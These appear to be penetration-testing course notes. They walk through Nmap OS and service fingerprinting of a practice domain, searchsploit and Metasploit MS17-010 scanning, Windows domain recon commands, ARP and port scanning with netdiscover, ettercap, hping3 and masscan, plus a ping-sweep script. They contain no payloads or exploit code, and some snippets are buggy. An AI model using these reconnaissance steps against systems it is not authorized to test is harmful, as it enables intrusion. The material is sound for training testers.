- It refers to gathering OS information about the target with direct interaction

- To fingerprint target OS details, use following Nmap command

  ```
  # nmap -O -F certifiedhacker.com
  Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 18:27 PST
  Nmap scan report for certifiedhacker.com (162.241.216.11)
  Host is up (0.20s latency).
  rDNS record for 162.241.216.11: box5331.bluehost.com
  Not shown: 85 closed ports
  PORT     STATE    SERVICE
  21/tcp   open     ftp
  22/tcp   open     ssh
  25/tcp   filtered smtp
  26/tcp   open     rsftp
  53/tcp   open     domain
  80/tcp   open     http
  110/tcp  open     pop3
  143/tcp  open     imap
  443/tcp  open     https
  465/tcp  open     smtps
  587/tcp  open     submission
  993/tcp  open     imaps
  995/tcp  open     pop3s
  [sudo] password for sherwinowen: 3306/tcp open     mysql
  5432/tcp open     postgresql
  OS details: Cisco Unified Communications Manager VoIP adapter, Android 7.1.2 (Linux 3.10), DD-WRT v23 (Linux 2.4.36), Vyatta router (Linux 2.6.26), Linux 2.6.18, MikroTik RouterOS 5.25 (Linux 2.6.35), Netgear ReadyNAS Duo NAS device (RAIDiator 4.1.4)
  Network Distance: 17 hops
  
  OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds
  ```
  
  

### Passive OS Fingerprinting:

- It refers to gathering OS information about a target without direct interaction
- Use Netcraft to find information about OSes of web servers

https://www.netcraft.com/


## Examine the Patches Applied to the Target OS
Source: https://uptime.netcraft.com

Patch is a piece of code used as temporary fixes for software vulnerabilities. Developers use patches to protect and update their products, which include software applications, OSs, database management software, web browsers, and so on.

Scanning the device patches will help you to find if the organization has enabled automatic update for all the devices and find missing patches on devices. You must scan the network for patches related to the OS, web servers, and applications running on the devices. List the dates for patches applied to the server. Look for the version number, OS level, and date. The device not updated with recent patches will have vulnerabilities and the testers can exploit them to escalate privileges. You can use tools like Netcraft to perform this operation.



## Fingerprint the Services

- Service fingerprinting is performed to determine services running on various port and their versions

- To perform service fingerprint use the following command

  nmap -sV <target

- You can use the following Nmap's switches to detect services more aggressively:

  - -sV or -A
  - --version-light
  - --version-all
  - --version-intesity

```
#nmap -sV -T4 -F certifiedhacker.com
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-18 18:37 PST
Nmap scan report for certifiedhacker.com (162.241.216.11)
Host is up (0.26s latency).
rDNS record for 162.241.216.11: box5331.bluehost.com
Not shown: 85 closed ports
PORT     STATE    SERVICE    VERSION
21/tcp   open     ftp        Pure-FTPd
22/tcp   open     ssh        OpenSSH 5.3 (protocol 2.0)
25/tcp   filtered smtp
26/tcp   open     smtp       Exim smtpd 4.94.2
53/tcp   open     domain     ISC BIND 9.8.2rc1 (RedHat Enterprise Linux 6)
80/tcp   open     http       Apache httpd
110/tcp  open     pop3       Dovecot pop3d
143/tcp  open     imap       Dovecot imapd
443/tcp  open     ssl/http   Apache httpd
465/tcp  open     smtps?
587/tcp  open     smtp       Exim smtpd 4.94.2
993/tcp  open     imaps?
995/tcp  open     pop3s?
3306/tcp open     mysql      MySQL 5.6.41-84.1
5432/tcp open     postgresql PostgreSQL DB
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port993-TCP:V=7.91%I=7%D=8/18%Time=611CE2E6%P=x86_64-pc-linux-gnu%r(SSL
SF:v23SessionReq,5,"\x80\x03\0\0\x01");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port995-TCP:V=7.91%I=7%D=8/18%Time=611CE2E6%P=x86_64-pc-linux-gnu%r(SSL
SF:v23SessionReq,5,"\x80\x03\0\0\x01");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5432-TCP:V=7.91%I=7%D=8/18%Time=611CE2E6%P=x86_64-pc-linux-gnu%r(SM
SF:BProgNeg,85,"E\0\0\0\x84SFATAL\0C0A000\0Munsupported\x20frontend\x20pro
SF:tocol\x2065363\.19778:\x20server\x20supports\x201\.0\x20to\x203\.0\0Fpo
SF:stmaster\.c\0L1624\0RProcessStartupPacket\0\0");
Service Info: OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.72 seconds
```

### Fingerprinting tools to grab banners from service

- **httprint**
  Source: http://www.net-square.com

  https://net-square.com/httprint.html

  hittprint is a fingerprinting tool that relies on web server characteristics to identify web servers and also detect devices which have no server banner string, This tool uses text signature strings and the signatures are added to the database easily.

  

 

* **ID Serve**
  Source: https://www.grc.com

  https://www.grc.com/id/idserve.htm

  ID Serve is an open source fingerprinting tool for examining the functioning of the web
  server. This also provides information about the services of the server and reveals
  cookie values and reverse DNS information.

  

## Vulnerabilty Research

### External Vulnerability Assessment

- involves idenbtifying the vulnerabilities in operation systems, devices, applications on the internet-facing hosts

## Search and Map the Target with the Associated Security Vulnerabilities

Mapping the service versions of an organization will help the tester in identifying the applications and servers used for running the services along with their versions. This information will help in finding the known vulnerabilities related to the servers and applications and exploit them to gain access to the network.

**Use the following to map the service version with the associated security vulnerabilities:**

- **Google hacking database**

  https://www.exploit-db.com/google-hacking-database

  Google hacking database is a database of queries. Penetration testers are using Google hacking database to identify exploitable targets and sensitive data using search engines. Search on Google, vulnerabilities related to specific version make and model of service, devices or OS running on target. The following types of information can be identified through Google hacking database:

  - Advisories and server vulnerabilities

  - Error messages that contain too much information

  - Files containing passwords

  - Sensitive directories

  - Pages containing sign-in portals

  - Pages containing network of vulnerability data such as firewall logs

- **National vulnerability database**

  https://nvd.nist.gov/
  
  The national vulnerability database is the US government repository of standards-based vulnerability management data represented using the security content automation protocol. It integrates publicly available US government vulnerability resources and provides references to industry resources via
  web search capability, and through XML, RSS, and web service feeds. It allows automation of vulnerability management, security measurement, and compliance. Moreover, NVD stores databases of security checklist references, security-related software flaws, misconfigurations, product names, and impact metrics.

- **Exploit database** 

  https://www.exploit-db.com/

  Penetration testers and vulnerability researchers use exploit database to gather information related to public exploits and corresponding vulnerable software.   It collects information through direct submissions, mailing lists, and other public sources  and represents them in a proper manner. The exploit database stores information about   exploits and proof of concepts instead of advisories.

- **CVE details**

  https://www.cvedetails.com/

  Offers simple and easy to use web interface to CVE vulnerability data. Using this, penetration testers can search for vendors, products, and versions and observe related CVE entries and weaknesses. They can also see statistics about vendors, products, and their versions.

  

## Find Out the Security Vulnerability Exploits

You can use the following ways to find out the exploits related to a specific security vulnerability:

- **Exploit database**

  Source: https://www.exploit-db.com

  It contains a huge bunch of public exploits and their related vulnerabilities, where a penetration tester could search for any exploit to use in his/her tests. The tester could use this database for free of cost and they could submit exploits and vulnerabilities identified by them.

- **Searchsploit**

  It is a command-line utility where a penetration tester could use to identify exploits and vulnerabilities from the exploit database in off-line mode.

  ```
  searchsploit -t Windows Server 2008
  ------------------------------------------------------------------------------------ ---------------------------------
   Exploit Title                                                                      |  Path
  ------------------------------------------------------------------------------------ ---------------------------------
  Autodesk Backburner Manager 3 < 2016.0.0.2150 - Null Dereference Denial of Service  | windows/dos/41160.py
  FileRun < 2017.09.18 - SQL Injection                                                | php/webapps/42922.py
  Intuit QuickBooks Desktop 2007 < 2016 - Arbitrary Code Execution                    | windows/local/39804.txt
  ManageEngine Desktop Central 8.0.0 build < 80293 - Arbitrary File Upload            | jsp/webapps/29674.txt
  Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Local Privilege Escalation (MS16 | windows/local/39809.cs
  Microsoft Windows 7 < 10 / 2008 < 2012 (x86/x64) - Secondary Logon Handle Privilege | windows/local/40107.rb
  Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (M | windows/local/39719.ps1
  Microsoft Windows Server 2000 < 2008 - Embedded OpenType Font Engine Remote Code Ex | windows/dos/10068.rb
  Microsoft Windows Server 2008 R1 - Local Denial of Service                          | windows/dos/17796.txt
  Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution  | windows_x86-64/remote/41987.py
  Microsoft Windows Server 2008/2012 - LDAP RootDSE Netlogon Denial of Service        | windows/dos/40703.pl
  MuPDF < 20091125231942 - 'pdf_shade4.c' Multiple Stack Buffer Overflows             | windows/local/10244.txt
  NProtect Anti-Virus 2007 < 2010.5.11.1 - Local Privilege Escalation                 | windows/local/15762.txt
  SureMDM < 2018-11 Patch - Local / Remote File Inclusion                             | windows/webapps/46305.txt
  ViRobot Desktop 5.5 and Server 3.5 < 2008.8.1.1 - Local Privilege Escalation        | windows/local/15764.txt
  WPS Office < 2016 - '.doc' OneTableDocumentStream Memory Corruption                 | windows/dos/39396.txt
  WPS Office < 2016 - '.ppt' drawingContainer Memory Corruption                       | windows/dos/39397.txt
  WPS Office < 2016 - '.ppt' Heap Memory Corruption                                   | windows/dos/39395.txt
  WPS Office < 2016 - '.xls' Heap Memory Corruption                                   | windows/dos/39398.txt
  xt:Commerce Gambio 2008 < 2010 - 'reviews.php' Error-Based SQL Injection            | php/webapps/15039.txt
  Zoho ManageEngine ADManager Plus 6.6 (Build < 6659) - Privilege Escalation          | windows/local/46707.txt
  Zoho ManageEngine ADSelfService Plus 5.7 < 5702 build - Cross-Site Scripting        | php/webapps/46815.txt
  ------------------------------------------------------------------------------------ ---------------------------------
  Shellcodes: No Results
  ```

## Exploit Verification

**Run the Exploits against Identified Vulnerabilities**

After identifying the vulnerabilities in the client's network, you should try to exploit and check whether these vulnerabilities in services, OS or devices have the potential to exploit. The following example shows the exploitation of vulnerabilities of the server message block (SMB) in Windows 7 Ultimate:

**Exploiting SMB vulnerability in Windows 7 Ultimate**

The SMB is a protocol for allowing the computers in a network to access files, printers, and other resources. The SMB server use TCP port 445 for providing accessibility services to the computers.

Initially, you should identify the open ports in the target host using the following Nmap command:

```
nmap -T4 -A -sV <target-host>
```


From the above figure, you should know that port 445 (SMB) is open and listening to the traffic from outside.

The SMBv1 provides information about the system to the users without proper authentication. The following Nmap command is used for obtaining system information:

```
nmap --script=smb-os-discovery -p 445 <target-host>
```


The attackers use the vulnerabilities in the SMB server and send specially crafted messages to SMBv1 to compromise it. This allows the attacker to perform remote code execution on the target host without proper authentication.

**Microsoft Windows -SMB Remote Code Execution Scanner (MS17-010)**


You can use this vulnerability and check whether the target client host is vulnerable or if MS17-010 has been patched. You should open the terminal and open Metasploit framework using the command msfconsole. Use the auxiliary module in the Metasploit framework to create quick vulnerability scan on SMB using the following command:

```
use axliary/scanner/smb/smb_ms17_010

# In the auxiliary module, you need to set the remote host using the following command:
set rhosts <host-ip-address>
```


From the above figure, it is clear that the host is vulnerable to MS17-010. Now, you need to try to exploit the host using this vulnerability using the following steps:

- Search for the exploit in any search engine and copy the exploit name.


* From the msfconsole, use the command as shown in the figure below:

Here, you paste the copied exploit name and press enter key to see the options available to exploit the target host.


## Document the Result
You must document all the results including:

- The list of open ports, OS, services, and their versions

- The ports and services through which exploitation could be possible

# Module 06 Network Penetration Testing - Internal

**External penetration** testing ensures that all unnecessary ports and services are disabled and blocked.

**Internal penetration** testing ensures the organization’s internal assets are secured properly.

## Internal Network Penetration Testing 

- Internal network penetration testing involves testing computers and devices within the company or organization

- This test examines internal IT systems for any weakness that could be used to disrupt the confidentiality, availability, or integrity of the network

- This test is performed to determine known and unknown vulnerabilities in the computer systems

  and exploits them from the perspective of an inside attacker

Internal network penetration testing is performed within the company. It involves testing the security strengths and weakness of an organization’s devices and computers. It includes checking the site location and connecting to the internal network. It is mainly performed to check for known and unknown vulnerabilities in the computer systems and exploits them from the perspective of an inside attacker.

It almost uses the same tools and methods as the external penetration testing used to test the internal network; the only difference is that the external penetration is performed from outside an organization, where it mainly focusses on unknown vulnerabilities. This test examines internal IT systems for any weakness that could be used to disrupt the confidentiality, availability, or integrity of the network.

Internal penetration testing highlights the following elements of an organization’s network:

- Protocol and network infrastructure vulnerabilities

- Server operating system and application vulnerabilities

- Internal controls and procedures

- Unsuitable user privileges

- Internal “intrawalls” separating subnetworks

## Why Internal Network Penetration Testing? 

- To check internal security measures that are already in place and determine what information and access can be obtained
- To allow management to understand the level of risk from malicious users associated with the organization's internal network
- To provide complete details of the organization’s internal network and suggest a cost-effective and targeted mitigation approach
- To create a basis for future decisions regarding the organization’s information security strategy and resource allocation

The testing is done mainly to prove how an unauthorized user with network level privileges can access to an organization’s environment and how easily they can access the sensitive information from the company and also demonstrate how a hacker can access if they were to compromise the company’s gateway.

The following are the few scenarios that are needed to be addressed when conducting an internal penetration test:

- Check internal security measures that are already in place and determine what information and access can be obtained.

- Allow management to understand the level of risk from malicious users associated with the organization’s internal network.

- Provide complete details of the organization’s internal network and suggest a cost-effective and targeted mitigation approach.

- Create a basis for future decisions regarding the organization’s information security strategy and resource allocation.

The internal penetration testing can also answer all the question mentioned below and educate staff members in an organization regarding the kind of risk they might face it.

-  What if an employee gains the company’s internal HR database and obtains the confidential data?
- What can be done if an employee with knowledge of the IT infrastructure penetrates the network?
- What if a hacker breaks into the internal networks that house employees’ PCs and databases and steals sensitive information?
- What if a guest or visitor walks into the company with the help of employee and steals data from an isolated machine?

## Footprinting

Footprinting is the first phase of penetration testing in which you can gain primary information about a potential target. Internal information like identifying domains, hosts, subnets, IP ranges, and so on will be acquired or extracted in this phase.

### Identify the Internal Domains
- Identify the list of domains in the network
- Type net view /domain command in command prompt to list out domain in the network

“Net view” command is used to display a list of domains, computers, or resources that are shared by the specified computer. If the command is used without the parameters, then it displays a list of computers in your current domain.

```
net view /domain 
```


Following are some of the additional net view commands that can obtain further information:

- net view \\\computerName
  It displays the list of file/printer shares on a remote computer.
- net view \\\computername /all
  It displays the shares including hidden shares on a remote computer.

* net view /network:nw
It displays the list of share on a remote Network computer

### Identify Hosts

- Run the following command in the command line, you can find the domain name:

  ```
  systeminfo | findstr /B /C:"Domain"\
  ```

- Run the following command to find the logged in user’s domain:

  ```
  echo %userdomain%
  ```

- WMIC can also be used alternatively to find domain name:

  ```
  wmic computersystem get domain
  ```

- To view all available servers on specific domain type:

  ```
  net view /domain: [domain name]
  ```

  

### Identify the Internal IP Range of the Subnet

There are different ways to identify the internal IP range of the network.

- Type ipconfig in command prompt to know your IP address and subnet mask.

- For example, 192.168.1.101 is your IP address and 255.255.255.0 is your subnet mask.

- The network address (default gateway) of the subnet will be 192.168.1.1.

- The broadcast IP for this subnet will be 192.168.1.255.

- Ping [broadcast IP].

- Type arp -a. You will get the list of all IP addresses on your segment.

  

- **Nmap**

  Source: https://www.nmap.org

  Nmap has a feature to list all the IP addresses in a subnet. The command -sL will list all the IP addresses on Nmap command line. If you wish to see reverse DNS lookup performed on each of the IP addresses being listed, then use -n option. See below figure that list the IP addresses in a target subnet along with no reverse DNS lookups.

  ```
  nmap -sL -n 192.168.0.1/30
  ```

  

- **SoftPerfect Network Scanner**

  Source: https://www.softperfect.com

  SoftPerfect Network Scanner is a multi-threaded IP, NetBIOS, and SNMP scanner. The program pings computers, scans for listening TCP/UDP ports, and displays the types of resources shared on the network—including system and hidden ones. Also, it can mount shared folders as network drives, browse them using Windows Explorer, filter the results list, and more. SoftPerfect Network Scanner can also check for a user-defined port and report if one is open. It can also resolve host names and auto-detect the local and external IP range. It supports remote shutdown and Wake-On-LAN.

  Select Options > IP Address > Detect Local IP Range and it will calculate the IP range of the network.

  

- **MyLanViewer**
  Source: http://www.mylanviewer.com
  It is a network scanning tool that includes NETBIOS, IP scanning, Wake-On-Lan manager, and remote shutdown. This tool can be used to list all IP addresses, MAC address, and folders shared on computers through wired and wireless network.

  

- **SolarWinds’s IP Network Browser**
  Source: https://www.solarwinds.com
  Solarwind’s IP Network Browser is a discovery tool to scan a single device, subnet, or IP address range to show information about the devices. It uses SNMP and agent must have SNMP active on the device to gather information.
  To scan IP address range in SolarWind’s IP Network Browser, enter the beginning IP address in the Beginning IP address field and enter the final IP address of the range in the Ending IP address field and click Scan Address Range

  

## Scanning

- Scanning is the active step of attempting to connect to systems to elicit a response
- For penetration testing the response is the key

### Scanning Methodology 

- **Live systems**
  -sP, -sn in nmap

- **Ports Identify Vulnerabilities**
  What are the doors on these targets 
  Remember all 0-65535
  -sS, -sT, -sU

- **Services** 

  What is behind these doors

  -sV

- Enumeration

  -sC, -A

- Identify Vulnerabilities

  - Manual

  - Tools

- Exploit

  - Validation of the vulnerability
  - Manual and tools

### Scan a Network: IP Addresses Scan, Multiple IP Addresses Scan, Subnet Scan
Usually, penetration testers and system administrators scan not only a single machine but a range of hosts using Nmap. It supports different formats of IP address ranges as a penetration tester, you must know how to deal with them. By this scan, you can identify active hosts, open ports, and so on, on a network.

### Nmap

The below are various types of scans using Nmap:

- **Scanning single host or IP address**
  Syntax: $ nmap [IP Address]

- **Scanning Multiple hosts or IP Addresses**
  Syntax:$ nmap [IP1] [IP2] [IP3] .. (or) $ nmap 10.10.10.10,11,12, ..

- **Scan a Subnet**

  Syntax:$ nmap 10.10.10.0/24

- **Scan IP Address Range**

  Syntax:$ nmap 10.10.10.10-155

- **Scanning Host/Host List from File**

  Syntax:$ nmap -iL input.txt

- **Saving Result into the file**

  Syntax:$ nmap 10.10.10.10 > output.txt

- **Quick Scan mode**

  Syntax:$ nmap -F [IP Address]

Apart from Nmap, you can also use the following tools to perform these scans:

- Angry IP Scanner (https://angryip.org)
- SoftPerfect Network Scanner (https://www.softperfect.com)
- SuperScan (https://www.mcafee.com)

### Netdiscover

```
#netdiscover -r 192.168.101.0/24
Currently scanning: (passive)   |   Screen View: Unique Hosts                                                       
                                                                                                                     
 304 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 18820                                                 
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.101.106 28:cf:e9:7d:ff:17      7     420  Apple, Inc.                                                       
 192.168.101.2   bc:98:89:9d:3c:58     13     780  Fiberhome Telecommunication Technologies Co.,LTD                  
 192.168.101.112 ec:9b:f3:3c:f8:a2     22    1320  SAMSUNG ELECTRO-MECHANICS(THAILAND)                               
 192.168.101.117 94:e9:79:fe:2a:2d    133    8500  Liteon Technology Corporation                                     
 0.0.0.0         94:e9:79:fe:2a:2d      4     256  Liteon Technology Corporation                                     
 192.168.101.3   3c:84:6a:a7:eb:b0    106    6360  TP-LINK TECHNOLOGIES CO.,LTD.                                     
 0.0.0.0         3c:84:6a:a7:eb:b0      7     420  TP-LINK TECHNOLOGIES CO.,LTD.                                     
 192.168.101.122 18:db:f2:39:6a:b3      1      60  Dell Inc.                                                         
 192.168.101.110 c8:94:bb:65:d2:79     11     704  HUAWEI TECHNOLOGIES CO.,LTD 
```

**Passive mode**

```
#netdiscover -p
Currently scanning: (passive)   |   Screen View: Unique Hosts                                                       
                                                                                                                     
 304 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 18820                                                 
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.101.106 28:cf:e9:7d:ff:17      7     420  Apple, Inc.                                                       
 192.168.101.2   bc:98:89:9d:3c:58     13     780  Fiberhome Telecommunication Technologies Co.,LTD                  
 192.168.101.112 ec:9b:f3:3c:f8:a2     22    1320  SAMSUNG ELECTRO-MECHANICS(THAILAND)                               
 192.168.101.117 94:e9:79:fe:2a:2d    133    8500  Liteon Technology Corporation                                     
 0.0.0.0         94:e9:79:fe:2a:2d      4     256  Liteon Technology Corporation                                     
 192.168.101.3   3c:84:6a:a7:eb:b0    106    6360  TP-LINK TECHNOLOGIES CO.,LTD.                                     
 0.0.0.0         3c:84:6a:a7:eb:b0      7     420  TP-LINK TECHNOLOGIES CO.,LTD.                                     
 192.168.101.122 18:db:f2:39:6a:b3      1      60  Dell Inc.                                                         
 192.168.101.110 c8:94:bb:65:d2:79     11     704  HUAWEI TECHNOLOGIES CO.,LTD 
```

### Ethercap

```
#ettercap -T -i eth0 -q -p

ettercap 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Listening on:
  eth0 -> 00:0C:29:6D:B7:F7
	  192.168.101.115/255.255.255.0
	  fe80::fa22:7bc:82f3:d94f/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  34 plugins
  42 protocol dissectors
  57 ports monitored
28230 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services
Lua: no scripts were specified, not starting up!

Randomizing 255 hosts for scanning...
Scanning the whole netmask for 255 hosts...
* |==================================================>| 100.00 %

8 hosts added to the hosts list...
Starting Unified sniffing...


Text only Interface activated...
Hit 'h' for inline help


Inline help:

 [vV]      - change the visualization mode
 [pP]      - activate a plugin
 [fF]      - (de)activate a filter
 [lL]      - print the hosts list
 [oO]      - print the profiles list
 [cC]      - print the connections list
 [rR]      - adjust SSL intercept rules
 [sS]      - print interfaces statistics
 [<space>] - stop/cont printing packets
 [qQ]      - quit


Hosts list:

1)	192.168.101.2	BC:98:89:9D:3C:58
2)	192.168.101.3	3C:84:6A:A7:EB:B0
3)	192.168.101.103	28:6D:CD:4F:88:E7
4)	192.168.101.104	28:6D:CD:4F:8A:C6
5)	192.168.101.105	28:6D:CD:4E:45:8A
6)	192.168.101.107	7C:91:22:2B:0E:1A
7)	192.168.101.108	28:6D:CD:4F:00:8D
8)	192.168.101.110	C8:94:BB:65:D2:79
9)	192.168.101.112	EC:9B:F3:3C:F8:A2
10)	192.168.101.113	8E:57:89:77:47:F4
11)	192.168.101.117	94:E9:79:FE:2A:2D
12)	192.168.101.122	18:DB:F2:39:6A:B3


Closing text interface...


Terminating ettercap...
Lua cleanup complete!
Unified sniffing was stopped.
```

### Bash Script

- We can check for a host being up or down with a simple script

hostcheck.sh

```
#!/bin/bash
host=$1
function pingcheck {
ping=`ping -c 1 $host | grep bytes | wc -l`
if [ "$ping" -gt 1 ];
then
echo "$host is up";
else
echo "$host is down quitting";
exit
fi
}
pingchec
```

bash hostcheck.sh [IP]

```
#bash hostcheck.sh 192.168.101.2
192.168.101.2 is up
```

### Ruby Ping Sweep

```
#!/usr/bin/ruby
require 'socket'
s = UDPSocket.new
254.times do |i|
next if i == 0
s.send("test", 0 , "192.168.101." + i.to_s, 53)
end
f = File.open("/proc/net/arp",'r')
data = f.read.split("\n")
up_hosts = []
data.each do |line|
next if entry[3] == "00:00:00:00:00:00"
next if entry[0] == "IP"
up_hosts << {:ip => entry[0], :mac => entry[3]}
end
print "Active network hosts\n"
print "%-12s\t%s\n" % ["IP Addr” , “MAC Address")
up_hosts.each do |host|
print "%-12s\t%s\n" % [host[:ip], host[:mac]]
end
```

## Port Scanning

A port scan will return the following responses: 

- **Open ports**: The target host system sends a reply signifying that a service exists with the valid port number.
- **Closed ports**: These responses signify that the connection to a port is refused.
- **Blocked ports**: These indicate a no-reply message from the host.

### Hping3

```
#hping3 192.168.101.2 --scan 0-65535 -S | more
Scanning 192.168.101.2 (192.168.101.2), port 0-65535
65536 ports to scan, use -V to see all the replies
+----+-----------+---------+---+-----+-----+-----+
|port| serv name |  flags  |ttl| id  | win | len |
+----+-----------+---------+---+-----+-----+-----+
   80 http       : .S..A...  64     0  5840    46
 8099            : .S..A...  64     0  5840    46
All replies received. Done.
Not responding ports: 
```

### Massscan

- Fast scanner
- Designed to scan the Internet
- Similar to ZMap
- Can split the scan up and set times

```
#masscan 192.168.101.0/24 -p 80,445
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-08-19 14:29:20 GMT
Initiating SYN Stealth Scan
Scanning 256 hosts [2 ports/host]
Discovered open port 445/tcp on 192.168.101.117                                
Discovered open port 80/tcp on 192.168.101.2                                   
Discovered open port 445/tcp on 192.168.101.122                                
Discovered open port 80/tcp on 192.168.101.3             
```

## Nmap

### Scan multiple ports

```
#nmap -p 80,443 192.168.101.2
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-19 22:33 PST
Nmap scan report for 192.168.101.2
Host is up (0.0022s latency).

PORT    STATE  SERVICE
80/tcp  open   http
443/tcp closed https
MAC Address: BC:98:89:9D:3C:58 (Fiberhome Telecommunication Technologies)

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds

```

### Scan a port

```
#nmap -p 80 192.168.101.2
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-19 22:34 PST
Nmap scan report for 192.168.101.2
Host is up (0.00072s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: BC:98:89:9D:3C:58 (Fiberhome Telecommunication Technologies)

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

### Scan all ports

```
#nmap -p "*" [IP Address]
```

### Scan port range

```
#nmap -p 1-500 [IP Address]
```

### Scan most common ports

```
#nmap --top-ports [Number] [IP Address]
```

### Scan specific TCP ports

```
nmap -p T:80 10.10.10.10
```

### Scan all TCP ports

```
nmap -sT 10.10.10.10
```

### Scan specific UDP ports

```
nmap -p U:53 10.10.10.10
```

### Scan all UDP ports

```
nmap -sU 10.10.10.10
```

### Display only Open Ports

```
nmap --open 10.10.10.10
```

## Common Port list

| Port     | Service name                                              |
| :------- | :-------------------------------------------------------- |
| 7        | Echo                                                      |
| 20, 21   | File Transfer Protocol (FTP)                              |
| 22       | Secure Shell (SSH)                                        |
| 23       | Telnet                                                    |
| 25       | Simple Mail Transfer Protocol (SMTP)                      |
| 43       | WHOIS                                                     |
| 50, 51   | IPSec                                                     |
| 53       | Domain Name System (DNS)                                  |
| 67, 68   | Dynamic Host Configuration Protocol (DHCP)                |
| 69       | Trivial File Transfer Protocol (TFTP)                     |
| 80       | HyperText Transfer Protocol (HTTP)                        |
| 109      | Post Office Protocol (POP2)                               |
| 110      | Post Office Protocol (POP3)                               |
| 115      | Simple File Transfer Protocol                             |
| 118      | SQL services                                              |
| 119      | Network News Transport Protocol (NNTP)                    |
| 123      | Network Time Protocol (NTP)                               |
| 135-139  | NetBIOS                                                   |
| 143      | Internet Message Access Protocol (IMAP4)                  |
| 156      | SQL server                                                |
| 161, 162 | Simple Network Management Protocol (SNMP)                 |
| 194      | Internet Relay Chat (IRC)                                 |
| 389      | Lightweight Directory Access Protocol                     |
| 443      | HTTP with Secure Sockets Layer (SSL)                      |
| 464      | Kerberos (change/set password)                            |
| 465      | SMTP over SSl                                             |
| 514      | Syslog                                                    |
| 587      | SMTP                                                      |
| 660      | Max OS X server                                           |
| 631      | Internet Printing Protocol                                |
| 636      | Lightweight directory access protocol (LDAP) over TLS/SSL |
| 749-752  | Kerberos                                                  |
| 843      | Adobe Flash                                               |
| 873      | rsync file synchronization protocol                       |
| 902      | VMware server                                             |
| 989, 990 | FTP over SSL/TLS (implicit mode)                          |
| 992      | Telnet protocol over TLS/SSL                              |
| 993      | Internet message access protocol over SSL (IMAPS)         |
| 995      | Post office protocol 3 over TLS/SSL (POP3S)               |
| 3389     | Remote Desktop Protocol                                   |

## Other Network Scanning Tools

- **Angry IP Scanner**
  Source: https://angryip.org
  Angry IP scanner is a small but fast IP scanner that can scan IPs in any range and allows the user to ping each IP address to check if it is alive. It verifies an IP address, scans ports, and determines the hostname related to an IP address.
- **SuperScan**
  Source: https://www.mcafee.com
  SuperScan is a connect-based TCP port scanner, pinger, and hostname resolver with multi-threaded and asynchronous techniques to scan a network. It detects open ports of TCP, UDP, and determines the services running on these ports. It is used to evaluate computer security by system administrators, penetration testers, crackers, and script kiddies.

## Scanning from within Metasploit

- Start the database

  ```
  systemctl start postgresql
  ```

- Initialized the database (only required once)

  ```
  msfdb_init
  ```

- Verify the database is connected

  ```
  #msfdb status
  ● postgresql.service - PostgreSQL RDBMS
       Loaded: loaded (/lib/systemd/system/postgresql.service; disabled; vendor preset: disabled)
       Active: active (exited) since Thu 2021-08-19 19:14:50 PST; 3h 53min ago
      Process: 1107 ExecStart=/bin/true (code=exited, status=0/SUCCESS)
     Main PID: 1107 (code=exited, status=0/SUCCESS)
          CPU: 1ms
  
  Aug 19 19:14:50 parrot systemd[1]: Starting PostgreSQL RDBMS...
  Aug 19 19:14:50 parrot systemd[1]: Finished PostgreSQL RDBMS.
  
  COMMAND  PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
  postgres 890 postgres    3u  IPv6  25674      0t0  TCP localhost:5432 (LISTEN)
  postgres 890 postgres    4u  IPv4  25675      0t0  TCP localhost:5432 (LISTEN)
  
  UID          PID    PPID  C STIME TTY      STAT   TIME CMD
  postgres     890       1  0 19:14 ?        Ss     0:00 /usr/lib/postgresql/12/bin/postgres -D /var/lib/postgresql/12/m
  
  [+] Detected configuration file (/usr/share/metasploit-framework/config/database.yml)
  ```

  ### Metasploit Databases

  | Commad     | Usage                                                        |
  | ---------- | ------------------------------------------------------------ |
  | db_connect | This command is used to interact with databases other than the default one |
  | db_export  | This commands used to export the entire set of data stored in the database for the sake of creating reports or as an input to another tool |
  | db_nmap    | This command is used for scanning the target with NMAP, and storing the results in the Metasploit database |
  | db_status  | This command is used to check whether the database connectivity is present or not |
  | db_import  | This commands used to import results from other tools such as Nessus, NMAP, and so on |

  ### Workspaces

  Once connected to the database, we can start organizing our different movements by using what are called ‘workspaces’, This gives us the ability to save different scans from different locations/networks/subnets

  For example

  - Add
    -a
  - Delete
    -d

  ```
  msf6 > workspace -a LPT
  [*] Added workspace: LPT
  [*] Workspace: LPT
  msf6 > workspace LPT 
  [*] Workspace: LPT
  msf6 > workspace 
    default
  * LPT
  msf6 > 
  ```

  

### Gathering our Data

Importing 

- Requires an xml formatted scan output

- Run scan directly to metasploit

- db_nmap

  Same command options as Nmap

  ```
  msf6 > db_nmap -A 192.168.101.0/24
  [*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-20 03:58 PST
